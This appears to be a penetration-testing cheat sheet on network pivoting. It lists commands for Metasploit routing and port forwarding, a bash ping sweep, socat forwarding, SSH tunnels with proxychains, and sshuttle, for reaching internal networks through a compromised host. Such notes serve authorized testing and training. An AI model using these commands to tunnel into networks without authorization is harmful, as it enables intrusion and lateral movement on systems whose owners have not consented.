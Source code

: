 # pivoting

## Metasploit

- Route traffic through meterpreter sessions.
```shell
run autoroute -s 10.10.10.0/24
```

- Portforward to attacker machine.
```shell
portfwd add -l 1234 -p 80 -r $ip
```

- Ping sweep the internal network.

```shell
msf6 post(multi/gather/ping_sweep) > use ping_sweep
```

## Living off the land

- Ping sweep the internal network.

```shell
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done
```

- The static nmap executable can be downloaded from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap).
- The static ncat executable can be downloaded from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat).

- We can port forward using `socat` as follows

```shell
./socat tcp-l:9999,fork,reuseaddr tcp:forward-ip:80
```

## SSH tunnelling

- Start by dynamic port forwarding.

```shell
ssh -D 1234 user@$ip
```

- Next set up proxychains

```shell
sudo vim /etc/proxychains4.conf
# socks4 127.0.0.1 1234
```

- Portforward to attack machine.

```shell
ssh -L 1234:127.0.0.1:targetport user@$ip
```

## sshuttle

- Connect to the target using

```shell
sshuttle -r user@$ip 10.10.10.0/24
```

```shell
sshuttle -r user@$ip 10.10.10.0/24 --ssh-cmd "ssh -i id_rsa"
```

```shell
sshuttle -r user@$ip 10.10.10.0/24 --ssh-cmd "ssh -i id_rsa" --exclude 10.10.10.10
```